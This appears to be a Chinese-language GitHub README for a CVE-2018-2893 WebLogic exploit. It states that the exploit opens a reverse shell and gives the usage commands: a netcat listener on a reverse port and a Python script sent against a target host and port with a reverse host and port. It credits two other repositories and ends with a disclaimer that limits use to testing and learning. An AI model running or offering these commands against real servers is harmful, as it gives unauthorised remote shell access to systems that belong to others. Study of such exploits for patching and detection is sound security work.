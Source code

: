 ﻿**CVE-2018-2893**

> 可以直接反弹shell

**Usage**

监听

    nc -lvvp reverse_port

发送payload

    python weblogic.py target_host target_port reverse_host reverse_port

**Reffer**
[bigsizeme](https://github.com/bigsizeme/CVE-2018-2893)
[pyn3rd](https://github.com/pyn3rd/CVE-2018-2893)

**说明**

> 仅用于测试和交流学习，勿作他用